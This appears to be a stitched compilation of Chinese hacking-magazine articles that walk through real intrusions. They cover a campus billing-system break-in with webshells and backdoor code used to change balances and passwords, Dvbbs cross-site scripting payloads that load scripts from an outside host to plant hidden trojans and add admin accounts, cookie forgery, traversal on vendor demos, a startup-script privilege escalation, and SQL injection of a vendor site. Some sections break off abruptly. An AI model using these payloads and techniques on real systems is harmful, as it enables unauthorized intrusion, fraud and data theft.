- 有时备份并不一定直接得到 WebShell，但可通过备份看到重要文件内容，这与查看 conn.asp 的思路类似。

## 反其道而行之：ASP备份成图片


---

适合读者：入侵爱好者、脚本爱好者  
前置知识：木马使用基础

## 三大挑战：入侵校园网流量计费系统

文/图 下雨天、无常


### 挑战一：动网上传出现红叉

在内网乱转，首先发现了 .BAK 文件引起的不安全因素。因为许多程序员用 EditPlus 或 UltraEdit 编辑后会产生 .BAK 文件，而当我们用 IE 去请求访问这个文件时，IIS 会当作文本文件来解析并会显示文件的内容，如图1所示。


请求几个文件后觉得作用不大，无意看到计费系统网站一个不显眼角落有内部论坛。看到类似“bbs/list.asp?boardid=4”的 URL 后联想到动网，尝试在地址后输入“upfile.asp”出现上传漏洞界面。该论坛访问较少，漏洞长期存在并不奇怪。随后用常用小马测试，如图2所示。


提示成功后访问 WebShell，如图3所示。虽然上传成功但页面出现红叉，说明已被服务器解析。于是用 FlashGet 将已解析页面下载回来，再修改提交地址，如图4所示。


修改后缀为 htm 方便提交，可以看到下载的页面代码如下：

```html
GIF89<form action='' method='post'>保存文件的<font color=red>绝对路径(包括文件名:如D:\web\x.asp):</font>
<input type=text name=syfdpath width=32 size=50><br>本文件绝对路径至:\HTTP\WWW\bbs\incc.asp<br>
输入马的内容:<textarea name=cyfddata cols=80 rows=10 width=32></textarea>
<input type=submit value=保存></form>
```

去掉开头 GIF89 图片标记，把 Action 值改为已上传 WebShell 地址并保存，如图5所示。


修改后的代码如下：

```html
<form action='http://xxx.edu.cn/bbs/incc.asp' method=post>保存文件的<font color=red>绝对路径(包括文件名:如D:\web\x.asp):</font>
<input type=text name=syfdpath width=32 size=50><br>本文件绝对路径至:\HTTP\WWW\bbs\incc.asp<br>
输入马的内容:<textarea name=cyfddata cols=80 rows=10 width=32></textarea>
<input type=submit value=保存></form>
```

接着用 IE 打开这个 htm 文件，像往常一样写入一个大马，点提交就可以了，如图 6 所示。


图6

不出意外会返回成功的信息，这样我们就得到一个大点的马，我用的是“海洋2006”，如图7所示。


图7

现在可以登录上去看看那个该死的 incc.asp 到底怎么了。果然如我所料，上传后的木马第一句变成了“GIF89<% dim objFSO %>”。至此，解决了动网上传漏洞入侵过程中出现的显示图片红叉现象了。

## 挑战二：硬件防火墙后的 SQL 数据库

有了 WebShell 接下来要做的事就比较多了，可以查看服务器系统信息，方便提权。由于我是为了流量而来，所以马上看了一下登录验证表单，刚开头就两个调用。

```asp
<!-- #include file="conn.asp" -->
<!-- #include file="md5.asp" -->

username=trim(Request.form("username"))
Passwd=trim(Request.form("Passwd"))
if (len(username)>20) or (len(Passwd)>35) or (len(Passwd)<30) then
    response.write " "
    response.end
end if
Set Conn = Server.CreateObject("Adodb.Connection")
Conn.Open connstr
set rs=server.createobject("adodb.recordset")
sql="select users.*, type.typename from users,type where users.userno='"&username&"' and type.usertype=users.usertype"
...
if (md5(rs("Passwd"))<>Passwd) then error=10
...
response.redirect "error.asp"
```

```asp
response.end
end if
```

最看不明白的是数据库里肯定是明文密码，要不为什么还加一个 md5(rs("Passwd"))。可是前台传递的 Passwd 是直接 Request 过来的啊，难道中间的 Request 有问题？果然在 index.asp 里发现这么一句：“<form name=loginform method="post" onsubmit="return md5()">”。这样就已经知道了数据库里的密码是明文的。接着我开始利用数据库连接文件 conn.asp，马上用木马把它下载回来研究。打开后居然是乱码，如图8所示。


图8

看到“<%@ LANGUAGE = VBScript.Encode %>”了没，稍微玩过黑防的“攻防实验室”的都知道怎么解密了，解密后的代码如下（经过处理）：

```asp
<%@ LANGUAGE = VBScript %>
<%
on error resume next
Response.Expires=-1
dim ConnStr
ConnStr="Provider=sqloledb;Data Source=SQLIP;Initial Catalog=netacct;User Id=HackServer;Password=lovexyskyhacker;"
%>
```

知道了账号密码，如果权限允许的话，在本机的查询分析器里连上对方的 SQL Server 服务器，或者在本地的 IIS 里架设一个有 SQL 注入漏洞的文件连接到对方的 SQL Server 服务器进行跨库查询，那么整个数据库结构一下就都清楚了。很可惜连不上，看来又是硬件防火墙惹的祸。既然远程不行，就在 WebShell 环境下操作吧，好歹也算是本地主机。

我构造了一个存在 SQL 注入漏洞的页面，然后用跨库查询希望能得到数据库的信息。等我把代码写好保存在 incc.asp 文件里。（渗透过程中尽量少向服务器写文件，因为有些目录允许写不允许删，比如这个服务器就是如此。）习惯性地开始注入测试，发现 IIS 居然把错误消息给屏蔽了。没办法，不能放弃。接着用海洋木马把上面几个关键的页面下载回来研究一下，研究了半天总算有点眉目。这研究也是有针对性地看代码，就像我们想发现 SQL 注入漏洞，就要从执行 SQL 语句那里往前分析一样，这里就从执行 SQL 语句往后分析，再往前分析，并记录所有的表名、字段名、字段值所对应的含义等。

最后得出数据库有两个表，一个表 users 放用户的信息，如身份证、学号、账号、密码等；另一个表 type 存放用户类型信息，如分为普通学生、教师职工。我们学校教师职工一个月自动充 10 块钱的流量，普通学生只能自己去充钱。试着用几个不同身份的账号进行登录分析，才明白字段都对应着什么意思。后来我想添加一个用户，可是在不清楚数据库结构的情况下轻易添加用户很可能影响数据库的完整性，容易被发现，还是小心为好。

发现平时我们写代码都是 `rs(0)` 读取出查询内容的第一个字段的值，实际上那是 Field 对象的 Value 属性，应该写为 `rs(0).value`，并且 Value 属性是 Field 对象的缺省值。如果想知道表单的字段名，就该用 `rs(0).Name`。关键代码如下：

```asp
<%
for i=0 to recordset.fields.count-1
  Response.Write recordset(i).name
next
%>
```

这样就轻而易举地得到了所有的字段名，轻松突破。后续描述了写入与日志相关的处理过程。

### 挑战三：在线无日志充值改密码

因为平时充值需要填写学号、姓名、金额等，再由专门软件写入数据库。拿到 WebShell 后可操作数据库，但频繁写新文件不安全，因此考虑把代码写入服务器上的某文件（如 `incc.asp`）以进行在线改密、在线充值等。

一句话木马如 `<%execute Request("|")%>` 可用，但容错性一般，容易报错；于是通过加入参数判断、放在不易关注页面等方式降低暴露概率。

```asp
<%
Dim abc
abc=Request("xysky")
if abc="haha" then
  execute Request("o")
end if
%>
```

接着构造客户端 `post.htm` 进行提交，示例表单与写文件代码如下。

```html
<form action=http://xxx.edu.cn/bbs/printpage.asp method=post>
  <input type="hidden" name="xysky" value="haha">
  <textarea name=o cols=120 rows=10 width=45>
set sky=server.CreateObject("Adodb.Stream")
sky.Open
...
```

```asp
sky.Type=2
sky.CharSet="gb2312"
sky.writetext Request("t")
sky.SaveToFile server.mappath("incc.asp"),2
sky.Close
set sky=nothing
response.redirect "incc.asp"
```

留好后门并提交脚本后即可修改数据库记录。文中描述了在管理端查看日志、定位相关文件与操作记录的过程。


图9

> 对数据库进行操作都会存有记录，只是一般不会有人去查。

在线查询某个账号对应代码如下：

```asp
<!-- #include file = "../conn.asp" -->
<%
Set Conn = Server.CreateObject("Adodb.Connection")
Conn.Open connstr
set rs=server.createobject("adodb.recordset")
sql="select * from users where users.[userid]='sxjm12'"
rs.open sql,conn,1,1
if rs.eof then
  Response.write "..."
else
  ' 省略用表格显示记录代码
end if
rs.close
conn.close
set rs=nothing
set conn=nothing
%>
```

这里由于 `incc.asp` 存放在 `bbs` 目录下，所调用的 `conn.asp` 在上一个目录，所以写为 `<!-- #include file = "../conn.asp" -->`。经过多次测试，发现不能分页读取多条记录，而且不能带参数，已经确认代码没有问题。查询别人信息时只要更改 `userno` 的值再提交数据即可。


```asp
<!-- #include file = "../conn.asp" -->
<%
Set Conn = Server.CreateObject("Adodb.Connection")
Conn.Open connstr
set rs=server.createobject("adodb.recordset")
sql="select * from users where userno='sxjm13'"
rs.open sql,conn,3,3
if not rs.eof then
  rs("Paswd")="testtest"
  rs.Update
  rs.close
  conn.close
  set rs=nothing
  set conn=nothing
end if
%>
```

用一句话后门提交就转到这个页面，而这种对数据库操作的页面不访问是无效的。

写入后，还要再访问才能改密码以及后面的在线充值。实现在线充值的代码如下：

```asp
<!-- #include file = "../conn.asp" -->
<%
Set Conn = Server.CreateObject("Adodb.Connection")
Conn.Open connstr
set rs=server.createobject("adodb.recordset")
sql="select * from users where userno='sxjm13'"
rs.open sql,conn,3,3
if not rs.eof then
  rs("freemoney")=28.5591
  rs.Update
  rs.close
  conn.close
  set rs=nothing
  set conn=nothing
end if
%>
```

修改密码、充值后再次查询，如图11所示。


### 总结

本来打算提升权限拿下主机再写文章的，毕竟硬件防火墙突破也算是一个比较大的挑战。可是由于“保密”工作做得不够好，只好放弃进一步入侵。其实多探测一下服务器信息就不难发现主机开了 23456 端口，可能是 Radmin；可以尝试导出 Radmin 在注册表的信息进行破解，也可以借助提权工具执行从而突破硬件防火墙，也可以替换服务利用社会工程学等。渗透时要有灵活思路。

- 适合读者：网络爱好者、软本爱好者
- 前置知识：脚本基础知识

## 黑软现场

### ——最新跨站攻击专题——

最近很多朋友向我要动网 7.1 的漏洞资料，尽管时间比较紧，我还是抽空写了这篇文章，希望给大家提供一些新思路。本文内容不涉及 SQL 注入，仅凭几个较严重的脚本跨站攻击漏洞就可将最新版动网论坛送入地狱。

第一个可以获得后台管理权限的跨站攻击漏洞，需要你至少拥有版主权限。用版主账号登录论坛，进入论坛管理模块，如图1所示。

注意其中的论坛名称，我们就从这个变量下手。修改论坛名称为 `<script src=http://172.18.26.75/test.txt></script>`。这里的 `http://172.18.26.75/test.txt` 是用于测试后台跨站攻击的脚本。因为该变量有长度限制，所以地址不能太长。


图1


图4


图2

```javascript
document.write("网络技术");
alert(document.Cookie);
```

现在登录后台看看，这时无论你是点击常规管理的广告管理、积分管理，还是点击论坛管理的版面管理，都会弹出如下的 Cookie 信息，如图3所示。


图3

很多管理选项都受了影响，我们不怕管理员登录后台时不中招！而且它还可以影响首页，如图4所示。

但是网页的布局却没有受到影响，可谓挂马、后台跨站的极品方法。关于首页挂马不在本文讨论范围内，其实要挂也就一句话的事情，修改 test.txt 为以下内容：

```javascript
document.write("网络技术");
document.write("<iframe src=你的网马 width=0 height=0></iframe>");
```

真是杀人于无形啊，这种方法挂马后，在首页的源文件中是找不到网马地址的。经验不太丰富的管理员遇到这种情况可能只有关门大吉了。

此处重点是如何提升为后台权限，最初我使用的是添加后台管理员账号的脚本，test.txt 内容如下：

```html
document.write("网络技术");
document.write("<iframe src=../../add.Gif width=0 height=0></iframe>");

<!-- 注意，add.Gif 必须是你上传到服务器上的文件 -->
<html>
<body>
<form name=upload method=post action="http://172.18.26.75/Admin/admin.asp?action=savenew">
  <input type=text name=username2 value=llikz>
  <input type=text name=password2 value=111111>
  <input type=text name=username1 value=llikz>
  <input type=text name=isdisp value=1>
</form>
<script>
upload.submit()
</script>
</body>
</html>
```

此脚本添加了一个后台账号为 llikz、密码为 111111、前台账号为 llikz 的后台管理员账号。设置完毕我们登录后台，然后随便找几个受影响的管理选项点一下。

为方便大家查看，我将“<iframe src=../../add.Gif width=0 height=0></iframe>”改为“<iframe src=../../add.Gif width=100 height=100></iframe>”，这样就可以清楚地看到跨站攻击的结果了，如图5所示。

看来我们已经添加好后台管理员账号了，如图6所示。不要高兴得太早，打开编辑权限看看你添加的管理员有什么权限？对，一点权限都没有。我们添加的这个管理员没有任何权限，所以这就要求跨站脚本还得包含添加后台操作权限的代码。对我们这些懒惰的家伙来说此法不可取，我们还是利用后台恢复数据库的方法来实现。之所以不选用备份数据库，是因为不必构造 MDB 结构 Shell。

首先将一个小型 ASP 木马扩展名修改为 Gif，通过论坛上传到网站，得到路径如下：“/UploadFile/2006-1/20061315254770917.Gif”，然后本地建立一个 back.Gif，内容如下：


图5


图6

```html
<html>
<body>
<form name=upload method=post action="http://172.18.26.75/Admin/data.asp?action=RestoreData&act=Restore">
  <input type=text name=DBpath value="/UploadFile/2006-1/20061315254770917.Gif">
  <input type=text name=backpath value="../data/llikz.asp">
</form>
<script>
upload.submit()
</script>
</body>
</html>
```

同样把这个文件上传到网站，最后修改 test.txt 的内容如下：

```javascript
document.write("网络技术");
document.write("<iframe src='back.Gif上传文件的相对路径' width=0 height=0></iframe>");
```

到这里我们的工作已经全部完成，剩下的只是耐心等待。或许是 1 个小时，或许 1 天，只要你有耐心，终究能得到你的 WebShell。

下面来说说没有版主权限的跨站方法，这里需要利用动网 7.0 SP2 的一个漏洞：“短消息跨站脚本漏洞”。这个漏洞很久以前就开始流传了，只是危害不大，也就没了公布的必要。不过现在终于有用武之地，先简单说下这个漏洞的演示：注册个账号发送短消息，短消息内容是“[img]test" onerror="alert(document.Cookie);[/img]”。

然后查看这条短消息，Cookie 信息弹就出来。由于短消息内容中的 < > 等都过滤了，我们不能直接插入 HTML 代码，可以使用 JavaScript 的 escape() 与 unescape() 编码和解码。本地建立一个文件，内容如下：

```html
<html>
<body>
<form name=upload method=post action="http://172.18.26.75/admin_boardset.asp?action=saveditbm&boardid=1">
  <input type=text name=editid value=1>
  <input type=text name=BoardType value="<script src=http://172.18.26.75/test.txt></script>">
  <input type=text name=Readme value="网络技术">
  <input type=text name=boardmaster value=llikz>
</form>
<script>
upload.submit()
</script>
</body>
</html>
```

将这个文件上传到服务器，得到的路径是：“UploadFile/2006-1/20061316211791584.Gif”。

如下是需要嵌入到短消息的 HTML 代码：

```html
<iframe src=http://172.18.26.75/UploadFile/2006-1/20061316211791584.Gif width=0 height=1></iframe>
```

进行 Escape 编码后如下：

```text
%3C%69%66%72%61%6D%65%20%73%72%63%3D%68%74%74%70%3A%2F%2F31%37%32%2E%31%38%2E%32%36%2E%37%35%2F%55%70%6C%6F%61%64%46%69%6C%65%2F%32%30%30%36%2D%31%2F%32%30%30%36%31%33%31%36%32%31%31%37%39%31%35%38%34%2E%67%69%66%20%77%69%64%74%68%3D%30%20%68%65%69%67%68%74%3D%31%3E%3C%2F%69%66%72%61%6D%65%3E
```

这样我们发送的短消息内容就是：

```text
[img]test" onerror="var a='%3C%69%66%72%61%6D%65%20%73%72%63%3D...%3C%2F%69%66%72%61%6D%65%3E';document.write(unescape(a));//img]
```

只要把短消息发给管理员或对应版面的论坛版主，当他们浏览我们短消息时就会自动修改配置。

从上面我们可以看到，跨站脚本漏洞会给系统带来严重的危害，所以在平时我们千万不要忽视这些安全隐患。

## 爆料动向

### 最新跨站攻击漏洞

脚本小子：当入侵已经成为一种模式的时候，难免会让人感到厌倦，在毫无新意的重复中虚度光阴，当然不是我们所希望的。在不寻常的思维中寻找突破，找寻灵感才是黑客世界的魅力所在。通俗一点说，我们需要新意！

- 适合读者：脚本爱好者、入侵爱好者  
- 前置知识：脚本入侵基础

## 让DVBBS和BBSXP都投降Shell

文/图 zrrshoo


在一次偶然的安全检测中，遇到了出乎意料的情况，但却给了我一点小小的惊喜，不敢独享，发出来与大家共赏。

偶然检测到一个设计公司的服务器，服务器架设了许多相关业务站点，用 domain.exe 检测后找到如下突破口：http://www.meitulife.net/databackup/dvbbs7.mdb。当然，我马上下载了数据库，打开 DV_Log 表，查看多个 l_content 字段，提取到几个有用信息，管理员可能的密码为：tianyaclub、renfang、444444、wangzhiyang。在我以为问题已经明显解决的时候，却出现了一个意想不到的情况，如图1所示。


论坛关闭了，本来以为关闭了没关系，管理员照样可以进，可是情况不是那样，管理员登录链接根本不可用（后来发现根本就是替换了 index.asp 文件）。当然，这个问题并不难解决，手动输入 login.asp，登录页面出来了，如图2所示。


尝试了几个密码，用 renfang 成功登录 admin 账户，接着进入管理登录页面，手动输入 admin_index.asp，尝试了一遍密码后，用 wangzhiyang 成功登录后台。取得 WebShell 的方法当然是那一成不变的数据库备份。可现在论坛关闭中，不能发帖子，也就是无法上传小马，所以我本想先把论坛重新开启，上传文件后再恢复，可是却发现了一个异常惊人的情况，如图3所示。


后台显示论坛是开放的，那个关闭论坛的页面居然是自己挂上去的。我汗死，此路不通，我们还有办法，尝试直接跳到 URL“http://www.xxx.net/bbs/post.asp?action=new&boardid=8”，后面的 boardid 我们可以随机尝试。现在可以发表主题了，当然我们也可以上传更改后缀的 WebShell。我尝试着上传一个更改了后缀的海洋顶端，郁闷，结果是：无法上传。

对了，还没看过他的主页，打开一看，出来一个 BBSXP，难怪原来的论坛关闭了，原来是换了一套程序。嗯，又有思路了，我们可以在 BBSXP 里先上传文件，再利用 DVBBS 后台备份，思路很明确，马上上传，然后自信满满地去备份。结果是：找不到文件！如图4所示。


第一感觉是被查杀，换了一个专用的免杀马上去，如图5所示。

结果还是提示找不到文件，检查了几遍相对路径，没错！到此初步判断，虚拟目录不同！眼看着一线希望的曙光又暗淡了下去。到底怎么上传文件？

这个鬼天气，还真够冷，泡了杯茶暖暖手，这招果然有效，僵硬的思维有了闪光，让我想起个东西。有时候自己还不是一般的粗心啊，怎么就忘了头像上传呢？我们继续尝试，跳转 URL“http://www.xxx.com/bbs/mymodify.asp”尝试上传头像，这次终于成功了！

- 适合读者：入侵爱好者，破解爱好者  
- 前置知识：SQL注入基础

## SQL Injection in EXE

文：Kevin1986，[S4]

本来说到了大学以后，就把网络安全这个爱好放一放，专心读书、做兼职、找女朋友……可是班上一个家伙不知道从哪打听来的小道消息，说我计算机技术和他还有的一拼，于是就威逼利诱加坑蒙拐骗找我单挑计算机技术。没办法，为了在全班女生面前抬头，我只好应战。挑战内容由这个挑战的人出。我准备了一天，看了看反汇编的书，再把 Overflow 的知识整理一下，脚本这边随意看了看就轻装上阵了。谁知道对方一拿出来就是一个自己写的程序，说叫我在30分钟里通过任何形式获取它程序的用户名和密码……

先分析一下程序吧，由3个文件组成：一个是图标，一个名为 Dairy.dat（约300多K），还有一个是主程序。打开程序后，只有3个控件：一个用户名、一个密码，再加一个按钮控件“登录”。输入几个常用组合结果全部失败。还是老方法，用记事本打开程序试一试，结果在一堆乱码中发现了类似“Select user, pass from Dairyuser Where User=”这样的字符串。于是怀疑主程序会连接数据库并执行查询语句……


图5

该站虽然更改了默认数据库文件名，却忽视了备份目录下的副本；虽然直接替换了主页造成无法直接访问，但忽视了可以手动跳转；站点启用了新论坛却仍保留旧论坛数据，违反了最小系统原则。

现在网络中很多人只会用工具做注入，而忽略了 Injection 原理。作者继续在程序中尝试传统 `'or'='` 方式后进入系统，再通过“日记查询”等功能继续测试，发现仍存在注入点，遂继续执行后续的注入与信息获取步骤。

and exists(select top 1 * from dairyuser where len(username)>5) and '1'='1' 结果返回错误……第一个想到的是名字的缩写，那么马上实验 `a' and exists(select * from dairyuser where username='lyy') and '1'='1` 返回正确……

那么还是用 Ascii 码探测吧……Ascii 码的探测确实是比纯字符的快一些，一般只要用到 Between 函数就够了……

- 适合读者：脚本爱好者，入侵爱好者
- 前置知识：入侵基础知识

## 利用第三方插件入侵动网论坛

文/图 人鱼姬


### 前言

现在流行的入侵动网方法是拿到前台和后台口令，上传改过扩展名的 ASP 木马……然而这样放弃的话，你不觉得可惜吗？

实际上动网论坛有许多有趣的第三方插件，插件的编写者水平参差不齐，很容易造成漏洞……操作系统为 Windows XP SP2。

### 利用新手上路权限拿WebShell

- 1. 结婚插件篇

论坛地址为 `http://127.0.0.1/71sp1/index.asp`  
插件地址为 `http://127.0.0.1/71sp1/plus_marry_index.asp`  
暴库提交：`http://127.0.0.1/71sp1%5cplus_marry_index.asp`

数据库地址为 `http://127.0.0.1/71sp1/Dv_plus/marry/plus_marry_db.asp`……经过研究，发现结婚插件将告白和结婚的信息存于数据库中……


图2

现在我向 Admin 告白，内容为一句话木马（告白是需要20个金币的，你要先在论坛里灌水才行），如图3所示。


点保存，结果如图4所示。再用 IE 打开数据库看看，结果不同了……


我们插入了一句话木马，如图5所示。


然后用一句话木马的客户端提交大马，如图6所示。


这样就实现了仅用新手上路权限拿到 WebShell。

- 2. 法院插件篇

先对法院插件暴库，拿到数据库路径，如图7所示。


用 IE 打开看看，如图8所示。


经过研究，发现状纸的内容是储存于数据库的，那我们现在告 Admin，状纸内容填一句话木马，如图9所示。点告他后提示成功，以后怎么做就不用说了吧？

### 利用前台管理员权限拿WebShell

如果下载了动网的数据库，但又不能从 dv_log 中正确读出口令，并且口令比较强不能爆出 MD5 加密的明文，那么至少我们可以用 Cookie 欺骗拿到前台管理员权限。


先打开数据库的 dv_user 表，得到 admin 的 truepassword 为 BfVIy4k886ZvD956，userclass 为管理员，userid 为1。我们先用 Domain3.5 打开论坛首页，用人鱼姬登录（这个账号为新手上路权限），如图10所示，下面的 Cookie 栏显示的 Cookie 为：

```
skin=skinid%5F0=1%5F7&skinid%5F2=1%5F8; List=list2+and+1%3D2=1&list2+and+1%3D1=1; DvForum=userid=2&usercookies=0&StatUserID=3625273&userclass=...&username=...&password=...; Period...; iscookies=0; itime=...; cnzz_eid=...; ASPSESSIONID...; upNum=0
```


我们将其中的 userid、password、userclass、username 分别改为 1、BfVIy4k886ZvD956、管理员、admin，得到的 Cookie 为：

```
skin=skinid%5F0=1%5F7&skinid%5F2=1%5F8; List=list2+and+1%3D2=1&list2+and+1%3D1=1; DvForum=userid=1&usercookies=0&StatUserID=3625273&userclass=管理员&username=admin&userhidden=&password=BfVIy4k886ZvD956; Period...; iscookies=0; itime=...; cnzz_eid=...; ASPSESSIONID...; upNum=0
```

用上面的 Cookie 覆盖原 Cookie，点修改，成功。如图11所示。


对于动网的其他插件中的问题，大家可以自行研究，道理是相通的。

### 后记

在实际入侵中，情况是多种多样的，以下是我总结的一些入侵动网论坛思路。

- 1. 先看数据库和备份数据库的默认路径有没有改，若没有，下载拿到前台和后台口令。
- 2. 考察打补丁的情况，可结合动网前台提权漏洞和回收站漏洞拿到前后台权限。
- 3. 检查论坛的插件，用暴库或猜默认数据库（比如农场的默认路径为 www.xxx.com/bbs/sheep.asa）的方法拿到扩展名为 ASP 的数据库路径，再想办法用低权限插入一句话木马（数据库扩展名不是 ASP 或 ASA 就不能用此法了）。

以下是对站长的一些建议：

- 1. 修改代码避免暴库。
- 2. 修改默认口令和数据库路径。
- 3. 将数据库扩展名由 mdb 改为 ASP 或 ASA 并不能避免被下载（数据库里面不含 `<%` 或 `%>` 的情况），由于扩展名为 ASP 或 ASA 的文件会送给 ASP.dll 解释，可能被插入一句话木马，反而增加风险，建议用更安全的扩展名或做防下载处理。
- 4. 严格检查用户提交给数据库的内容，过滤 `<%` 和 `%>`。
- 5. 坚持打补丁。

- 适合读者：入侵爱好者，脚本爱好者  
- 前置知识：无

## 利用上传组件漏洞攻破网站

文/图 1860


近期对文件上传组件比较感兴趣，所以有空我就研究这类程序的漏洞。在研究（Bestcomy.net）开发的无组件上传程序时，发现了几个漏洞，在这里一一说明，为大家日后做个参考。

在主站下载 AspnetUpload2.2 的 DEMO 版，由于是免费的，程序源代码全封包（脚本小子：这是商业版 ASP.NET 程序的老习惯了），源代码查看不了，所以我直接在官方网站的测试页进行测试。以下仅友情测试，并没有对官方进行任何破坏。

### 上传漏洞

由于该上传组件没有对文件类型进行检查，所以能够上传任意后缀名的文件，包括 ASP、ASPX 木马，如图1所示。

选好文件进行上传，关于上传后文件到了什么目录，这里大家可以对上传的页面进行抓包查看。图1所示的文件名是 sql.asp，上传到了网站的 Upload 目录下，现在直接就可以执行文件了，如图2所示。


用木马的“文件管理选项”可以实现对主机的各分区浏览。

### 路径泄漏

在上传页面上传个 TXT 的文件，如图3所示。


返回后查看到该文件在网站的 URL 连接地址，如图4所示。文件上传后进行了文件名加密，上传前是 1.txt，现在变成了使用 BASE64 加密的 MS5OeHQ，直接将地址提交到 IE 就可以下载该文件。去年1.0期黑防中的桃源网盘的文章提到过在文件名后提交错误字符，令其网站暴出物理路径的漏洞；我在这里也使用了这种方法。IE 一闪而过，什么也没出现，只是提示如图5所示。


图4


图7


图8


图5

接着试着删除整个文件名，就余下“Filename=”。回车后 IE 终于暴出了该网站的物理路径，如图6所示。


图6

前面提到过上传后的文件名是用 BASE64 进行改名存放的，所以读取该网站的文件就要注意先用 BASE64 工具对 IE 转义符进行转化。调出 BASE64 转化工具，如图7所示。由于暴出来的路径有6层，所以我在 Filename 后提交“../../../../../../”进行 BASE64 转化，得到“Li4vLi4vLi4vLi4vLi4vLi4v”，直接在 IE 上提交，得到提示跳转到 C 盘，如图8所示。

试着用提交转化后的 BASE64 码进行浏览硬盘的文件，如图9所示。


图9

现在可以下载到系统盘下的文件，如程序的配置文件等。到此对官网的检测结束，因为上传组件配置时没有进行文件过滤，服务器也未对出错信息进行屏蔽，导致存在上传 WebShell 的可能。最后希望各位站长对此问题加以重视。

- 适合读者：网络
- 前置知识：木马使用基础

## 利用在线文件管理器漏洞获得WebShell

文/图 1860

近日答应帮朋友组建网站，需要用在线文件管理器进行对网站管理。我从百度好不容易找到一个基于 ASP 的脚本，个头小巧，管理功能也不错。作者只放出了有时间限制的测试版，注册费是60多块。但我只是帮朋友建网站，还没觉悟到自掏腰包，所以就去官方站点看了看。由于设定了 GUEST 账号只有来宾权限，规定只能在特定的目录进行测试，如图1、图2所示。

想到以后也许就要采用这套程序，所以总得测试一下它的安全性；带着这个想法，我对官方站点进行了测试。由于前段时间研究过 SPDEV 的在线文件管理器，发现这类管理器大都存在因为用户访问权限及网站目录权限配置不当引起的漏洞。进入了该 DEMO 页面，看到界面可……


图1

SPDEV 开发的程序管理界面相似，但漏洞隐患是否相同呢？于是在“/webman_test/”后面加上了 U 漏洞提到过的检测方法，在后面添加目录跳转符“../”进行查看，如图3所示。


现在能够看到上一层目录的文件了，在右边能够对任意文件进行编辑、删除、下载等操作。到这里网站程序的源代码就能轻松得到了。由于网站演示的是没有时间限制的版本，我们将文件一个个下载回来就可以了。

我们可以直接上传 ASP 后门，提交后返回到文件管理区，如图4所示。

当然也可以在“windows/index.asp”中插入木马，这样进入该网站的访问者都会自动种下木马，如图5所示。

至于如何隐藏木马，因为不是本文讨论的话题，在此略过。现在我们就成功获得了它的 WebShell，关于后期提权大家肯定比我清楚。

最后联系了管理员，告知漏洞情况令其做好补丁。在这里说下废话，各位网站的管理员一定要认真负责，自己接管的服务器权限一定要认真配置，不然很容易因为一个程序有问题，导致整个主机安全系数大大降低。

- 适合读者：网络管理员、入侵爱好者  
- 前置知识：还原卡基础知识

## 利用网络管理提权也用卡

文/图：xove

笔者学校所在的机房采用万欣还原卡来做还原保护，并且为了防止学生上课时访问不相干的外网，还对 IE 进行了限制，只能登录被许可的几个站点，这让我用得很不舒服。我们知道 IE 的限制可以通过修改注册表来破解，可惜当前用户的权限太低，仅仅是个 User，只有查看注册表的权限。于是我进入 C 盘，查找可以使用的东西：CMD 被封掉了，FTP 命令可以用。看来这样就简单多了，只要使用 FTP 命令，去 FTP 下载一个 Opera 浏览器就能直接上网了。

事情还没有完全解决，因为硬盘被万欣还原卡保护着，一旦重启，做过的修改都会被还原。难道就这样每次都去 FTP 下一个 Opera 来上网？显然太麻烦了。但是管理员不是可以修改注册表么？所以现在我需要提升权限至管理员。提升权限，莫过于本地溢出，我开始从流行的 MS-05039 一直测试到最新的 MS-05053，可惜，全部宣告失败。本地提升权限失败了，只能想其他办法。

再次查找，发现组策略可以使用。于是想到了通过加启动脚本的方式来提升权限。这里顺便八卦一下，在组策略中如何通过加启动脚本的方法提升权限：大家知道，在 Windows 2000/XP 中，管理员就算不知道其他用户（管理员）的密码，依然可以用“Net User 账户 密码”更改其密码。此外，用户还可以用“Net Localgroup Administrators 账户 /add”命令来将账户添加到管理员组。

但是，我们现在不是管理员，表面上是不可以使用上述命令的，但还是可以通过某种渠道来使用它。例：以 Guest 账户身份创建一个管理员。1. 创建一个批处理文件，内容如下。

```bat
net user admin admin /add
net localgroup administrators admin /add
```

将上述的批处理文件保存为 `admin.bat`。

> 上述批处理文件作用是创建一个名为 admin、密码是 admin 的管理员账户。

- 2. 将此批处理文件作为 Windows 的开机启动脚本。  
  1) 在“运行”对话框中输入 `gpedit.msc`。  
  2) 定位到“计算机配置”→“Windows 设置”→“脚本（启动/关机）”，双击右边窗口的“启动”，在其中添加先前创建的 `admin.bat`。  
  3) 重新启动计算机，系统便有了一个名为 admin 的管理员。

上述操作在 Windows 2000/XP 中可行，但要保证账户可以访问注册表、组策略（创建账户的操作实际上也是在注册表中添加相应的项和值）；而 Windows 中缺省的 Guest/受限账户并无此限制。

现在剩下的问题就是破解还原卡了。我在网上查找关于破解还原卡的文章，发现大部分都是利用 Debug 的方法来绕过。可惜万欣还原卡的设计人员也想到了这一点，于是我放弃此方法继续思考。一般来说还原卡都有一个原始密码，如果管理员忘记修改还原卡密码，那么不就……想到做到，可是在网上怎么搜也找不到万欣还原卡的原始密码，倒是在某个人网站上找到几个比较有用的信息：

> 《万欣保护卡总管密码遗忘如何解决》

1. 找一台配置相同的机器并知道密码的网络发送一下，密码就和那台发送机器一样了。  
2. 开机按 F10，进入还原卡管理登录状态，输入 `enpq`，会弹出一串数字，到冷启动硬盘即可重置密码。  
3. 做硬盘低级格式化。

原来此卡密码是在万欣网站上计算出来的，去看看他的网站先。打开 `www.wanxinsoft.com` 有会员注册，注册一下，发现竟然是人工审核，只有购买公司产品的用户才能通过，看来我是通过不了了……查看网站结构发现是 ASP 的，于是拿出阿D的注入工具，发现存在注入漏洞，如图1所示。


剩下的事情就是交给阿D注入工具来完成，很快得到管理员的用户名密码，如图2所示，密码是 MD5 加密的。可以去 `http://www.xmd5.org` 查询，主页目前拥有 500W 条记录，查询下就可以了，发现密码是 123456。


（企业网站这样都可以？）找到了后台地址 `http://www.wanxinsoft.com/admin`，登录进去，如图3所示。


查看会员管理，把我刚才注册的会员权限中的“保护卡密码解码”打开，如图4所示。回到首页，使用会员登录，发现已经有“还原卡密码解码”选项了，如图5所示。


输入开头用 `enpq` 命令得到的数字“x 10 26 78 190 20 220 160 27 181 214 74”，从而取得还原卡的密码，如图6所示。


